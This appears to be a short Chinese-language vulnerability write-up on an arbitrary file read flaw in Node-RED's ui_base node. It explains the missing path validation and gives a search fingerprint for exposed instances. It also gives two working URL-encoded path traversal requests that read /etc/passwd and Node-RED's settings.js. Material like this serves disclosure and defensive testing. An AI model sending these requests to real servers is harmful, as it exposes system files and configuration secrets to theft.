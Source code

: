 # Node-RED ui_base 任意文件读取漏洞

# Node-RED ui_base 任意文件读取漏洞

## 漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，

缺乏对最终路径的验证会导致路径遍历漏洞，可以利用这个漏洞读取服务器上的敏感数据，比如settings.js

## 漏洞影响

```
Node-RED
```

## 网络测绘

```
title="Node-RED"
```

## 漏洞复现

访问页面



![](/images/202202101928889.png)

验证POC



```plain
/ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
/ui_base/js/..%2f..%2f..%2f..%2fsettings.js
```

![](/images/202202101928013.png)



![](/images/202202101928766.png)

